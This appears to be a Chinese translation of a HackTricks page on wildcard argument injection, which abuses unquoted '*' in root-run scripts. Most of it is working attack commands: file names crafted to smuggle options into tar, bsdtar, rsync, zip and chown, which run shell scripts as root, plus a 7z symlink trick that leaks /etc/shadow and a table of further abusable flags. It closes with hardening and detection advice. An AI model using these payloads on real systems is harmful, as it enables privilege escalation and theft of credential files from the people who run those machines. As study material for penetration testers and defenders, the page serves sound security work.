 # 通配符备用技巧

{{#include ../../banners/hacktricks-training.md}}

> 通配符（又称 *glob*）**参数注入**发生在特权脚本运行 Unix 二进制文件，如 `tar`、`chown`、`rsync`、`zip`、`7z` 等，使用未加引号的通配符，如 `*`。  
> 由于 shell 在执行二进制文件**之前**扩展通配符，因此能够在工作目录中创建文件的攻击者可以构造以 `-` 开头的文件名，使其被解释为**选项而不是数据**，有效地走私任意标志或甚至命令。  
> 本页面收集了 2023-2025 年最有用的原语、最新研究和现代检测。

## chown / chmod

您可以通过滥用 `--reference` 标志来**复制任意文件的所有者/组或权限位**：
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
当 root 后来执行类似的操作时：
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` 被注入，导致 *所有* 匹配的文件继承 `/root/secret``file` 的所有权/权限。

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (组合攻击)。  
另请参阅经典的 DefenseCode 论文以获取详细信息。

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

通过滥用 **checkpoint** 功能执行任意命令：
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
一旦 root 运行 e.g. `tar -czf /root/backup.tgz *`，`shell.sh` 作为 root 被执行。

### bsdtar / macOS 14+

最近的 macOS 上默认的 `tar`（基于 `libarchive`）*不*实现 `--checkpoint`，但你仍然可以通过 **--use-compress-program** 标志实现代码执行，该标志允许你指定一个外部压缩程序。
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
当特权脚本运行 `tar -cf backup.tar *` 时，将启动 `/bin/sh`。

---

## rsync

`rsync` 允许您通过以 `-e` 或 `--rsync-path` 开头的命令行标志覆盖远程 shell 或甚至远程二进制文件：
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
如果 root 后来使用 `rsync -az * backup:/srv/` 归档目录，注入的标志会在远程端生成你的 shell。

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` 模式)。

---

## 7-Zip / 7z / 7za

即使特权脚本 *防御性* 地用 `--` 前缀添加通配符（以停止选项解析），7-Zip 格式通过用 `@` 前缀文件名支持 **文件列表文件**。将其与符号链接结合可以让你 *外泄任意文件*：
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
如果root执行类似于：
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip 将尝试将 `root.txt` (→ `/etc/shadow`) 作为文件列表读取，并将退出，**将内容打印到 stderr**。

---

## zip

`zip` 支持标志 `--unzip-command`，该标志在测试归档时会*逐字*传递给系统 shell：
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
通过精心制作的文件名注入标志，并等待特权备份脚本对结果文件调用 `zip -T`（测试归档）。

---

## 额外的易受通配符注入攻击的二进制文件（2023-2025 快速列表）

以下命令在现代 CTF 和真实环境中被滥用。有效载荷始终作为一个 *文件名* 创建在一个可写目录中，稍后将通过通配符处理：

| 二进制文件 | 滥用的标志 | 效果 |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → 任意 `@file` | 读取文件内容 |
| `flock` | `-c <cmd>` | 执行命令 |
| `git`   | `-c core.sshCommand=<cmd>` | 通过 SSH 执行 git 命令 |
| `scp`   | `-S <cmd>` | 生成任意程序而不是 ssh |

这些原语不如 *tar/rsync/zip* 经典常见，但在猎杀时值得检查。

---

## 检测与加固

1. **在关键脚本中禁用 shell 通配符扩展**：`set -f` (`set -o noglob`) 防止通配符扩展。
2. **引用或转义** 参数：`tar -czf "$dst" -- *` 是 *不安全的* — 更倾向于使用 `find . -type f -print0 | xargs -0 tar -czf "$dst"`。
3. **显式路径**：使用 `/var/www/html/*.log` 而不是 `*`，以便攻击者无法创建以 `-` 开头的兄弟文件。
4. **最小权限**：尽可能以非特权服务帐户而不是 root 运行备份/维护作业。
5. **监控**：Elastic 的预构建规则 *通过通配符注入的潜在 Shell* 查找 `tar --checkpoint=*`、`rsync -e*` 或 `zip --unzip-command` 后立即跟随的 shell 子进程。EQL 查询可以适应其他 EDR。

---

## 参考文献

* Elastic Security – 检测到的通过通配符注入的潜在 Shell 规则（最后更新于 2025 年）
* Rutger Flohil – “macOS — Tar 通配符注入”（2024 年 12 月 18 日）

{{#include ../../banners/hacktricks-training.md}}
